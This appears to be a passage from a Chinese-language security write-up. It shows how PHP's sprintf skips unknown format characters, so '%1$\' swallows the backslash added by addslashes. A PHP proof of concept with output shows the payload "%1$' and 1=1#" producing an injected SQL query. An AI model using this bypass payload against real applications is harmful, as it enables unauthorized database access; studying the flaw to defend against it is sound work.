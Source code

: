 ```php
		php_sprintf_append2n(&result, &outpos,
							 zval_get_long(tmp),
							 width, padding, alignment, 4,
							 hexchars, expprec);
		break;

	case 'X':
		php_sprintf_append2n(&result, &outpos,
							 zval_get_long(tmp),
							 width, padding, alignment, 4,
							 HEXCHARS, expprec);
		break;

	case 'b':
		php_sprintf_append2n(&result, &outpos,
							 zval_get_long(tmp),
							 width, padding, alignment, 1,
							 hexchars, expprec);
		break;

	case '%':
		php_sprintf_appendchar(&result, &outpos, '%');

		break;
	default:
		break;
}

```

可以看到， php源码中只对15种类型做了匹配， 其他字符类型都直接break了，php未做任何处理，直接跳过，所以导致了这个问题


没做字符类型检测的最大危害就是它可以吃掉一个转义符`\`,  如果%后面出现一个`\`,那么php会把`\`当作一个格式化字符的类型而吃掉`\`,  最后`%\`（或`%1$\`）被替换为空

```php
<?php

$input = addslashes("%1$' and 1=1#");
echo $input;
echo "\n";
$b = sprintf("AND b='%s'",$input);
echo $b;
echo "\n";
$sql = sprintf("select * from t where a='%s' $b",'admin');
echo $sql;

>>>
%1$\' and 1=1#
AND b='%1$\' and 1=1#'
select * from t where a='admin' AND b='' and 1=1#'
```
